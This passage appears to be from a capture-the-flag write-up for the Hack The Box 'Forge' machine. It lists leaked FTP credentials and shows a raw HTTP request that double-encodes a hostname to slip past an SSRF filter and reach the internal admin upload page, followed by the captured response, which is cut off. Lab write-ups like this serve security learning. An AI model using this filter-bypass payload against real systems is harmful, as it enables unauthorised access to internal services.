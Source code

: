 The announcements indicate the following:
- FTP credentials `user:heightofsecurity123!`
	- Can't SSH as `user` (permission denied - key only)
- `http://admin.forge.htb/upload?u=$URL` will fetch the file at $URL (supports ftp, ftps, http, and https) 

#### Retrieving `http://admin.forge.htb/upload`

```http
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2Fadmin%252Eforge%252Ehtb%2Fupload&remote=1
```

Follow the link.

```http
HTTP/1.1 200 OK
Date: Tue, 14 Sep 2021 17:59:31 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=rUpdzKgJobY8d71BBDMM
Content-Length: 1031
Last-Modified: Tue, 14 Sep 2021 17:59:14 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

<!DOCTYPE html>
<html>
<head>
    <title>Upload an image</title>
</head>
<body onload="show_upload_local_file()">
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/upload.css">
    <script type="text/javascript" src="/static/js/main.js"></script>
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <center>
        <br><br>
        <div id="content">
            <h2 onclick="show_upload_local_file()">
                Upload local file
            </h2>
            <h2 onclick="show_upload_remote_file()">
                Upload from url
            </h2>
            <div id="form-div">
                
```